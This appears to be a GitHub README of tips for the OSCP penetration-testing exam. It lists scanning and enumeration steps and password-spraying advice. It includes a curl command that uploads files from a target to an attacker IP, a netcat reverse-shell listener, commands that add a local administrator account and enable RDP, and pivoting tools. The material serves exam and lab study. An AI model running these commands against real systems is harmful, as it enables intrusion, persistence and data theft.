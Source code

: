 ## oscp-tips ##
### Tips and Tricks for OSCP and Beyond! ###

1 - Run a quick port scanner like threader3000 or rustscan first. You can save good amount of time by this way, for example threader3000 scans all ports and suggests nmap only for open ports only.\n 
2 - Run nmap -sS for all ports, compare open ports with previous scan.
3 - Run -sU (UDP) for well-known ports.
4 - Run gobuster in dir mode for all http/https ports with common world list. See if anything interesting.
5 - Run gobuster in fuzz mode with common world list.
6 - Run gobuster recursively for anything interesting, like you find out a script directory, try to find out directories within script. You should do this upto 3-4 level.
7 - Run gobuster for file extension using -x, like for php or aspx.
8 - Check UDP scan, see if SNMP is allowed or not. If SNMP port is open use snmpwalk with well-known default community strings.
9 - Run snmp with extended MIB, check hacktricks for more details.
10 - Check HTML code, check title of the page, sometimes you will get vulnerable system name from title itself.
11 - Check nmap scan, try to connect to every port using telnet or nc. Send some random keys and see the response.
12 - Check hacktricks (https://book.hacktricks.xyz/) if you don't know or aware about pentesting of a port or service.
13 - Use rpcclient to enum users and other details if RPC ports are open.
14 – Revert machines and perform scan again.
15 – Listen reverse shell on same ports which are open on victim. For example, if port 445 is open on victim, bidirectional traffic might be allowed on same port too. You can use “nc -lvnp 445” to catch reverse shell on Kali in that case, if others are not working. Try port 80 and 443 as well.
16 – Always try default credentials wherever applicable. For example, admin/password, administrator/password or admin/admin. Search google for default credentials as well.
17 – Always try username and password as machine name as credential. For example, if machine name is “berlin”, try to login FTP (or any other service) with berlin/berlin. Try username without password.
18 – If machine is running a portal with employee name (or email), they can be potential usernames. Make a list and use it for spraying.
19 – Use “updog” to transfer data between target and Kali. You can upload data from target to Kali using below command.
curl.exe -v -XPOST -F "file=@./SharpHound.ps1;filename=SharpHound.ps1" -F "path=." http://192.168.45.229:9090/upload
Please note that for above command file “SharpHound.ps1” should be saved in same directory from where you are running command. You can use impacket-smbserver as well.
20 – If using msfvenom reverse shell, use msfconsole multi handler to catch it. 
21 - Compile C/C++ exploit with "-static" flag, it will allow to include all required libraries as few might be missing on target. You can avoid “GLIBC not found” error by compiling with “-static”.
22 – If you can get root on a Windows machine (standalone or form AD set), install nmap on that and scan remaining machines from there. Scan will be very fast, you will surely save time.
23 – If you are not able to copy files directly to target machine copy it to another target and copy from there. For example, if you have root access on MS01 and low-level access on MS02. It is possible that you might not be allowed to copy files (like winPEAS) directly from Kali to MS02. Create a share folder on MS01, copy files to that folder. Now you can copy files from MS01 to MS02.
24 – Use ligolo-ng for pivoting between machines. You can use script from https://github.com/isr4r/misc-scripts/blob/master/ligolo.sh to configure ligolo easily.
25 – Use chisel for local port forwarding. For example, a service is running on target which is only locally allowed (or from 127.0.0.1). You should use chisel in this situation to open access for this service from Kali.
26 – Always check for ports open or allowed locally (for 127.0.0.1). You can connect to these ports on same target machine using “telnet localhost <port number>”. It will give you an idea if something interesting is running.
27 – For AD Set, after getting system level access, which might be over CLI, create a new account as local admin, enable RDP, login and do further enum like running mimikatz. You can use below commands to create user and enable RDP.
For RDP (PowerShell commands)
•	Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
•	Enable-NetFirewallRule -DisplayGroup "Remote Desktop"

For Creating User
•	net user user1 Pass123 /add 
•	net localgroup Administrators user1 /add

28 – Try reverse shell from https://www.revshells.com/, keep trying as one of them will work in lab and in exam too.
29 – Try smbclient, FTP, rpcclient as null user or anonymous user or guest user as well. For example,
•	smbclient -U “” -L 192.168.120.20  
30 – If machine has an open source project check its github or code repo to understand directory structure.


